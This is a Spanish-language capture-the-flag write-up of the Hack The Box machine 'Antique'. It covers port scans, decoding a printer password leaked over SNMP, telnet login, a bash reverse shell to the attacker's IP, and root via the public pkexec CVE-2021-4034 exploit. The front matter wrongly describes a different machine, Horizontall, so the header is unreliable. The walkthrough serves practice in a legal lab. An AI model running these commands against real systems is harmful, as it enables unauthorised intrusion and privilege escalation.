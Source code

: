 ```yaml
---
layout: single
title: Horizontall - Hack The Box
excerpt: "Horizontall is an easy difficulty Linux machine were only HTTP and SSH services are exposed. Enumeration of the website reveals that it is built using the Vue JS framework. Reviewing the source code of the Javascript file, a new virtual host is discovered. This host contains the `Strapi Headless CMS` which is vulnerable to two CVEs allowing potential attackers to gain remote code execution on the system as the `strapi` user. Then, after enumerating services listening only on localhost on the remote machine, a Laravel instance is discovered. In order to access the port that Laravel is listening on, SSH tunnelling is used. The Laravel framework installed is outdated and running on debug mode. Another CVE can be exploited to gain remote code execution through Laravel as `root`. " 
date: 2024-02-24
classes: wide
header:
  teaser: /assets/images/htb-antique/antique.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
tags:  
  - Pkexec
  - UDP
  - Telnet
  - SNMP
---
```


![](/assets/images/htb-antique/antique.png)

Antique is an easy Linux machine featuring a network printer disclosing credentials through SNMP string which allows logging into telnet service. Foothold can be obtained by exploiting a feature in printer. CUPS administration service running locally. This service can be exploited further to gain root access on the server. 

## Portscan

```
 Nmap 7.94SVN scan initiated Tue Apr  2 17:03:02 2024 as: nmap -p- --open -sS --min-rate 5000 -vvv -n -oG allports 10.10.11.107
 Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.10.11.107 ()	Status: Up
Host: 10.10.11.107 ()	Ports: 23/open/tcp//telnet///	Ignored State: closed (65534)
 Nmap done at Tue Apr  2 17:03:14 2024 -- 1 IP address (1 host up) scanned in 12.38 seconds
```
Y con esto analizamos los puertos abiertos:
```
nmap -sCV -p23 -Pn 10.10.11.107 -oN targeted
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-02 17:07 CEST
Nmap scan report for 10.10.11.107
Host is up (0.041s latency).

PORT   STATE SERVICE VERSION
23/tcp open  telnet?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NotesRPC, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, WMSRequest, X11Probe, afp, giop, ms-sql-s, oracle-tns, tn3270: 
|     JetDirect
|     Password:
|   NULL: 
|_    JetDirect
1 service unrecognized despite returning data.

```
Vamos a analizar tambien los puertos UDP:
```
sudo nmap -sU --top-ports 100 --open -T5 -v -n 10.10.11.107                              1 ⨯
[sudo] contraseña para kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-02 17:21 CEST
Initiating Ping Scan at 17:21
Scanning 10.10.11.107 [4 ports]
Completed Ping Scan at 17:21, 0.06s elapsed (1 total hosts)
Initiating UDP Scan at 17:21
Scanning 10.10.11.107 [100 ports]
Warning: 10.10.11.107 giving up on port because retransmission cap hit (2).
Discovered open port 161/udp on 10.10.11.107
Completed UDP Scan at 17:21, 9.96s elapsed (100 total ports)
Nmap scan report for 10.10.11.107
Host is up (0.11s latency).
Not shown: 86 open|filtered udp ports (no-response), 13 closed udp ports (port-unreach)
PORT    STATE SERVICE
161/udp open  snmp

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 10.15 seconds
           Raw packets sent: 369 (22.540KB) | Rcvd: 17 (1.327KB)
```

## Intrusión SNMP


Vemos que el puerto abierto tiene un servicio snmp, asi que vamos a investigarlo:
```
snmpwalk -c public -v2c 10.10.11.107 1
iso.3.6.1.2.1 = STRING: "HTB Printer"
iso.3.6.1.4.1.11.2.3.9.1.1.13.0 = BITS: 50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 
33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135 
iso.3.6.1.4.1.11.2.3.9.1.2.1.0 = No more variables left in this MIB View (It is past the end of the MIB tree)
```
Vemos que esta en hexadecimal y vamos a pasarlo de un modo que sea legible: 
```
echo "50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 
33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135" | xargs | xxd -ps -r
P@ssw0rd@123!!123�q��"2Rbs3CSs��$4�Eu�WGW�(8i	IY�aA�"1&1A5
```
## Entramos con telnet en el puerto 443

Lo ponemos:
```
telnet 10.10.11.107 23
Trying 10.10.11.107...
Connected to 10.10.11.107.
Escape character is '^]'.

HP JetDirect


Password: P@ssw0rd@123!!123�q��"2Rbs3CSs��$4�Eu�WGW�(8i
```
Vemos que se puede ejecutar comandos con exec asi que vamos a pasarnos una bash:
```
exec bash -c "bash -i >& /dev/tcp/10.10.16.14/443 0>& 1"
```

Ya podemos sacar la flag de usuario:
```
lp@antique:~$ cat user.txt
cat user.txt
15223601059755aab2544f81cdc59707
```
## Escalada de privilegios

Vamos a ver si encontramos la debilidad pkexec, que se puede explotar
```
lp@antique:~$ which pkexec
/usr/bin/pkexec
```

Desde nuestra terminal, vamos a clonarnos este repositorio https://github.com/berdav/CVE-2021-4034 que nos va a escalar el privilegio mediante pkexec, la comprimimos en .tar.gz (Ya que zip no esta en la maquina víctima).Desde el equipo de la víctima, obtenemos el comprimido de nuestro equipo(wget http://10.10.16.6/comprimido.tar.gz). Lo descomprimimos, hacemos make, y lo ejecutamos:
```
lp@antique:/tmp/CVE-2021-4034$ ./cve-2021-4034
# whoami
root
# bash
root@antique:/tmp/CVE-2021-4034# cd/root
bash: cd/root: No such file or directory
root@antique:/tmp/CVE-2021-4034# cd /root
root@antique:/root# ls
config.py  root.txt  snap  snmp-server.py
root@antique:/root# cat root.txt
4202c54a001f14e922c8d8ae918b8ac0
```
